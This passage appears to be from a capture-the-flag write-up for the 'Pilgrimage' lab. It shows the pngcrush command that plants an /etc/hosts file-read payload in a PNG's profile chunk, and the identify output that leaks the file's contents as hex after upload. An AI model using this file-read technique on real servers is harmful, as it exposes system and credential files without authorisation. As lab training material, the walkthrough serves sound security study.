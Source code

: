 ```
└─$ pngcrush -text a "profile" "/etc/hosts" sample.png 
  Recompressing IDAT chunks in sample.png to pngout.png
   Total length of data found in critical chunks            =      2206
   Best pngcrush method        =   4 (ws 15 fm 0 zl 9 zs 1) =      1201
CPU time decode 0.001745, encode 0.006729, other 0.000800, total 0.010875 sec

┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ ls
gitdumper.py  pngout.png  repo  sample.png
```
The file is saved as `pngout.png`. Uploading the file:

![](Images/shrink2.png)
To save the file, we can curl again, or visit the page in browser and select "Save As". Retrieving the data hex:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ identify -verbose 655a702e292d2.png 
Image: 655a702e292d2.png
  Format: PNG (Portable Network Graphics)
<...SNIP...>
  Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
<...SNIP...>
```
205 is related to the hex length, and the numbers following is the hex output. Using [Cyberchef](https://gchq.github.io/CyberChef/) to convert the output:
